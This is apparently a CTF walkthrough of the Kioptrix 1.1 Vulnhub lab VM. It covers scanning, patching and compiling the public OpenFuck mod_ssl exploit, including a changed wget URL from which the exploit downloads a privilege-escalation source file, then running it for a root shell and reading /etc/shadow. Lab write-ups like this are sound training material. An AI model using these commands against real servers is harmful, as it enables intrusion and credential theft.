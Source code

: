```yaml
---
layout: post
title: Vulnhub - Kioptrix 1.1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1.1 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) on Vulnhub. It's difficulty is rated as Beginner. This write up is the first of a series I will be doing as I complete Abatchy's list of OSCP like Vulnhub VM's. 

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-1/netdiscover.png)

Once I obtain the IP, then run a nmap scan and find the following ports: 22, 80, 111, 139, 443 and 1024. 
![](/img/kioptrix1-1/nmap.png)

Visiting the websites on port 80 and 443 reveal just the default apache page. So I decide to run nikto to see if anything can be found.
![](/img/kioptrix1-1/nikto.png)

Nikto reveals something interesting - mod_ssl 2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a reverse shell (OSVDB-756). I give this a google and come across the [OpenFuckV2 exploit](http://www.exploit-db.com/exploits/764/) on ExploitDB. I download the exploit and attempt to compile, however I recieve a number of errors. I decide to again google to see if I can find any clues on compiling this exploit and I come across this [Blog Post](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and this [Reddit Post](https://www.reddit.com/r/HowToHack/comments/5q2rkp/help_compiling_a_c_exploit/). Combining the information from these two sources the process to get the exploit to work is as follows:

#### Add the following headers
{% highlight c %}
# include <openssl/rc4.h>
# include <openssl/md5.h>
{% endhighlight %}


#### Update the wget URL (found via searching for wget) to:
{% highlight c %}
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
{% endhighlight %}


#### Update variable on line 961 from 
{% highlight c %}
unsigned char *p, *end;
{% endhighlight %}
to this:
{% highlight c %}
const unsigned char *p, *end;
{% endhighlight %}


#### Finally, install the libssl-dev library
{% highlight c %}
apt-get install libssl1.0-dev
{% endhighlight %}

Now I can compile the exploit using:
{% highlight bash %}
gcc -o OpenFuck 764.c -lcrypto
{% endhighlight %}

Running the exploit with no arguments presents the options for the exploit. It requires me to enter the code for the correct operating system and apache version number. From our Nikto scan we know that apache version 1.3.20 is the apache version and that the system is running Red Hat Linux. Looking at the options for the exploit we have two options. The following allowed the exploit to work.

{% highlight bash %}
./OpenFuck 0x6b 192.168.5.130 443 -c 40
{% endhighlight %}

The exploit runs successfully and I can see that I have root access via basic shell. 
![](/img/kioptrix1-1/access.png)

I tried to upgrade my shell by using:
{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}

However, this upgrades my shell as the apache user, so I run the exploit again and kept my root shell. As root I can view the /etc/shadow file and see there are other users, however there is nothing of interest in any of the home directories. Some further snooping, I finally find a email in /var/spool/mail/ and find the 'flag'.

![](/img/kioptrix1-1/flag.png)
